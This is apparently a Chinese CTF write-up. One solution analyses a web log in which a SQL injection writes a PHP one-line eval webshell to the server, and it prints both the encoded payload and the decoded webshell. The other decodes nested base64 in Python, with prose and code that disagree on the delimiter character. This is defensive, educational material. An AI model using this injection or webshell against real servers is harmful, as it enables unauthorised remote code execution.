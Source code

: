 ## [应急响应]welog1

https://forensics.didctf.com/challenges#welog1-703

* 考点：日志分析,PHP审计
* 工具：文本查看工具，base64
分析给出的日志，可以发现在最后的几行中出现了敏感信息`fl4g`,其中一条日志为：
```
192.168.150.1 - - [10/Mar/2023:08:23:05 +0000] "GET /index.php?id=0%27+union+select+1%2C0x223c3f70687020406576616c28245f504f53545b273362393064373564653234386365353562363665386533303837336236303030275d293b3f3e22%2C3%2C4+into+outfile+%22%2Fvar%2Fwww%2Fhtml%2Ftest2.php%22%23 HTTP/1.1" 200 1194 "http://192.168.150.31:9999/index.php?id=0%27+union+select+1%2C0x223c3f70687020406576616c28245f504f53545b273362393064373564653234386365353562363665386533303837336236303030275d293b3f3e22%2C3%2C4+into+outfile+%22%2Fvar%2Fwww%2Fhtml%2Ftest2.php%22--%2B+" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36"
```
将十六进制的内容写入了`/var/www/html/test2.php`这个文件，对十六进制的字符串进行解码后得得到下面的内容：
![1738479959107](./img/welog1.jpg)

```bash
"<?php @eval($_POST['3b90d75de248ce55b66e8e30873b6000']);?>"
```
这个是典型的一句话木马，攻击者可以通过`3b90d75de248ce55b66e8e30873b6000`进行连接，即为本题的答案

---
## [FSCTF 2023]base套

https://www.nssctf.cn/problem/4587

* 考点：代码实现多重解码
* 工具：pyhton，base64
  
观察附件数据发现是一个文本量巨大的`base64`解码，尝试解了几次后发现'如'的数目变少了，所以大胆推测只要解码'如'次即可得出最后的flag，编写下面的`python`代码实现这个操作，每次进行`base64`解码前都将'如'前的内容删除，直到没有'如'接触循解码

```python
import base64

def decode_base64_loop(input_str):
    while '是' in input_str:  # 只要存在字符 '是'
        # 获取 '是' 之后的部分
        input_str = input_str.split('是', 1)[1]
        try:
            # 尝试进行 base64 解码
            decoded = base64.b64decode(input_str).decode('utf-8')
            print(f"解码结果: {decoded}")
            input_str = decoded  # 更新 input_str 为解码后的结果
        except Exception as e:
            print(f"解码失败: {e}")
            break

input_str = "flag如如如如如如如如如如如如如如如如如如如如如如如如如如如如如如如如如如是ZmxhZ+……"  # Base64 编码字符串
decode_base64_loop(input_str)
```
